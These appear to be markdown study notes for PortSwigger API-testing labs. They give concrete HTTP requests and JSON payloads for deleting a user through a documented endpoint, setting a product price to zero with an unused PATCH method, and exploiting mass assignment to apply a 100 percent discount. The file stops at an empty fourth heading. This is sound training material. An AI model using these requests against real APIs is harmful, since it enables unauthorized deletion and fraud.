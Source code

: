 # 1. Exploiting an API endpoint using documentation: [Link](https://portswigger.net/web-security/api-testing/lab-exploiting-api-endpoint-using-documentation)
- Update the email > In Proxy > HTTP history, right-click the `PATCH /api/user/wiener` request and select Send to Repeater.
> The GET method requests a representation of the specified resource. Requests using GET should only retrieve data.
- Find the documentation: `GET /api/ HTTP/2`
- Delete the user: `DELETE /api/user/carlos HTTP/2`


# 2. [Finding and exploiting an unused API endpoint](https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint)
- Update the email > In Proxy > HTTP history, right-click the `GET /api/products/4/price HTTP/2` request and select Send to Repeater.
> The GET method requests a representation of the specified resource. Requests using GET should only retrieve data.
- Change the Method: `PATCH /api/products/1/price HTTP/2` > `"error":"Only 'application/json' Content-Type is supported"`
- Add `Content-Type: application/json` & {"price": 0} in body
- It will update the Price in the Application.
- ![image](https://github.com/user-attachments/assets/2131ee78-052c-417f-b043-c6b6e9b93d09)

# 3: [Exploiting a mass assignment vulnerability](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability)
- `Mass Assignment vulnerabilities` happen when an application automatically processes user input and assigns it to internal data (like user profiles) without checking what should or shouldn't be updated. This allows attackers to send extra information (like changing their user role to "admin") that the developers didn't intend to allow.
- Identifying hidden parameters: Since mass assignment creates parameters from object fields, you can often identify these hidden parameters by manually examining objects returned by the API.

### Steps:
- Look for the Endpoint, /api/checkout > Observe the Requests (Get/Post)

```JSON
POST request:
{"chosen_products":[{"product_id":"1","quantity":1}]}

Get Request:
{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}

Observe that the JSON structure in the GET response includes a chosen_discount parameter, which is not present in the POST request.
```
- Send Post request to Repeater > Add the `"chosen_discount":{"percentage":0}` Hidden Parameter in JSON & Send it > No Error
- Now, `"chosen_discount":{"percentage":100}` to solve the Lab.

# 4. 










